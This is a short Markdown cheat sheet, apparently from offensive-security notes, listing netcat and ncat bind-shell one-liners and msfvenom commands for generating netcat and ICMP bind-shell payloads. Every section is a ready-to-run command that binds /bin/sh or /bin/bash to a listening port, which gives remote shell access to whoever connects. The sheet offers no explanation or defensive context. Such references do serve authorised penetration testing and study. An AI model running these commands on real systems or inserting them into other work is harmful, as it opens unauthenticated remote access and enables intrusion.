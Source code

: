 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc -lp <PORT> -e /bin/sh

$ nc -lp <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat -lp <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -lup <PORT> -e /bin/bash
```

### 1.2 - OpenBSD Method

```
$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>

$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>
```

### 2.3 - ICMP Method

```
$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>
```